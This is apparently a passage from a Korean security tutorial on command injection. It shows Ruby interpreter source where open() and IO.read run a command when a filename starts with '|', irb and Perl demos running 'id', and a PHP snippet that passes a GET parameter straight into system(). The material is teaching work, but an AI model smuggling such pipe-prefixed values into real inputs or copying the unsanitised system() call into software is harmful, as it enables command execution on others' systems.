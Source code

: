 ```ruby
	    else {
                VALUE cmd = check_pipe_command(tmp);
                if (!NIL_P(cmd)) {
		    argv[0] = cmd;
		    return rb_io_s_popen(argc, argv, rb_cIO);
		}
```

```ruby
rb_define_global_function("open", rb_f_open, -1);
```

`rb_defien_global_function` 으로 등록된 open 말고도 다른 함수들도 똑같이 커맨드 인젝션에 취약하다.

```ruby
static VALUE
rb_io_open_generic(VALUE klass, VALUE filename, int oflags, int fmode,
		   const convconfig_t *convconfig, mode_t perm)
{
    VALUE cmd;
    if (klass == rb_cIO && !NIL_P(cmd = check_pipe_command(filename))) {
	return pipe_open_s(cmd, rb_io_oflags_modestr(oflags), fmode, convconfig);
    }
    else {
	return rb_file_open_generic(io_alloc(klass), filename,
				    oflags, fmode, convconfig, perm);
    }
}
```

rb_io_s_binread, rb_io_open, rb_io_s_read를 사용한 `IO.read`, `IO.bindread`등이 커맨드를 처리해 실행한다.

```ruby
irb(main):001:0> open("|id > /tmp/1")
=> #<IO:fd 11>
irb(main):002:0> IO.read("/tmp/1")
=> "uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)\n"
irb(main):003:0> IO.read("|id")
=> "uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)\n"
irb(main):004:0> IO.binread("|id")
=> "uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)\n"
irb(main):005:0>
----
$ perl -e 'open A, "|id"'
uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
```

### escapeshellcmd

- 아래 php 코드는 Command Injection에 취약한 코드이다.

```php
<?php
  $cmd = "ls ".$_GET['filename']." 2>&1";
  system($cmd);
```
